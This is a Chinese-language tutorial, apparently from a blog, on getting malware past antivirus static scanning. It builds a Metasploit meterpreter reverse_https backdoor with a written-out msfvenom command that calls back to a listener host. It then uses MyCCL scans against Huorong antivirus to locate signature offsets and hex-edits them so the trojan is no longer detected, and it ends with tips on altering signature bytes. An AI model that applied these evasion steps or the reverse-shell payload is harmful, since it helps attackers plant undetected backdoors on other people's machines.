

## 一、杀软

首先说一下杀软常用识别病毒的方式。

* 特征码识别
* 文件校验和法
* 进程行为监测法(沙盒模式)
* 云查杀
* 主动防御
* 机器学习识别

具体可自行百度。

## 二、过静态查杀

虚拟机里360有时有bug,怎么都不报毒，所以我们以火绒来实验。

怎么样才算过了静态免杀呢？

比如说，我把一个 exe 刚粘贴进电脑，就被杀软给杀了，那么我们通过各种方法使其粘贴到电脑并不会被杀软删除就算过了静态查杀。

#### 2.1 常规方法

* 改文件名
* 加资源
* 改区段
* 替换版本信息

#### 2.2 特征码免杀

免杀的基本思想就是破坏特征，这个特征有可能是特征码，有可能是行为特征，只要破坏了病毒和木马所固有的特征，并保证其原有功能没有改变，一次免杀就完成了。

所以我们需要定位特征码。

特征码定位分为文件特征码定位和内存特征码定位。

#### 2.2.1 文件特征码定位

常用工具 myccl 、muticcl .

1. MyCCL 定位特征码

   特征码定位又分为正向定位和反向定位。

   正向定位出来的特征码一般是改不了的，即改了之后会破坏文件结构使其执行不了，所以一般采用反向定位。

   这里我们采用 msf 生成的 exe 做测试。

   ```
   msfvenom -p windows/meterpreter/reverse_https LHOST=10.1.1.16 LPORT=4444 -f exe>shell.exe
   ```

   

   可以看到，直接被删除了。

   

   生成，则可以在自己指定路径下生成文件夹，

   

   然后用火绒对这个目录进行扫描删除病毒文件，（这里用火绒，360出bug）

   

   然后点在 `myccl `二次处理,又生成相同目录覆盖了原先目录，然后再查杀删除，再二次处理，知道查杀不出来位置。

   

   可以看到已经出现特征码，应为这里偏移量比较大，所以符合定位以下这里的特征码，

   然后点击生成，继续杀软查杀，二次处理循环知道杀软不在报毒和偏移量小于5，最好是2 和 4.

   

   现在出现了三个特征码，但是偏移量还比较大，所以继续右键特征码符合定位。

   有时候分块的时候正好把特征码分割开了，所以分块数量多设置几次。

   

   ok，第一个特征码差不多了

   记下来

   ```
   文件000025C8_00000005出现特征码!
   ```

   方法类似，都把区间缩小。

   

   现在我们拿winhex 或者 c32asm 以十六进制打开木马。

   

   找到对应位置，再偏移量内修改特征码。

   反向定位即点击 相应位置即可变为反向。

   

   其余过程类似。

   

   这是我反向定位出来的两个特征码。

   

   当我大幅度修改了特征码周围的数据时，杀软已经查杀不到了，但是此时木马的原有功能遭到了破坏甚至运行出现了错误，所以说这个试验很失败。也警示我们修改特征码要讲究方法。但是这也说明我们取得了一定程度上的成功。

   

2. muticcl 

   就不演示了，方法差不多，百度即可。

#### 2.2.3 修改特征码技巧总结

1. 直接修改特征码的十六进制

   修改方法:  把特征码所对应的十六进制改成数字差1或差不多的十六进制.
   适用范围:  一定要精确定位特征码所对应的十六进制,修改后一定要测试一下能否正常使用


